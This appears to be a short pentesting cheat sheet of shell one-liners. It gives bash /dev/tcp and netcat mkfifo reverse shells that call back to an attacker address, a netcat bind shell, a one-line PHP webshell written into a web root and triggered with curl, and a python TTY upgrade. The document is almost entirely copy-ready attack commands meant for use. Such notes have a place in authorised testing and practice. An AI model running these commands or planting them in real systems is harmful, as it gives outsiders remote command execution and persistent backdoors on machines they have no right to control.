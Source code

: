 # Shells

**Send reverse shell from remove server**
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
# OR
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f	
```

**Start a bind shell on the remote server**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

# connect to the shell
nc 10.10.10.1 1234
```

***Create Webshell php file**
```bash
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php

# Execute command on an uploaded Webshell
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

**Upgrade Shell TTY**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice	
